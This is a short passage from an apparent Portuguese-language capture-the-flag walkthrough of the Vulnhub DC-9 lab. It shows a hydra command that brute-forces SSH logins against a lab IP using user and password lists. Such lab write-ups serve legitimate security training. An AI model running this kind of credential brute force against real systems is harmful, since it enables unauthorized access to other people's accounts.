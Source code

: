![](/assets/img/Vulnhub/DC-9/credenciais-2.png)




### Bruteforce


* Agora vamos tentar um **bruteforce** com o **hydra** o **SSH** com as informacoes que temos 

```bash
sudo hydra -L usuarios.txt -P senhas.txt ssh://192.168.150.112 -T50
```

![](/assets/img/Vulnhub/DC-9/hydra-ssh.png)
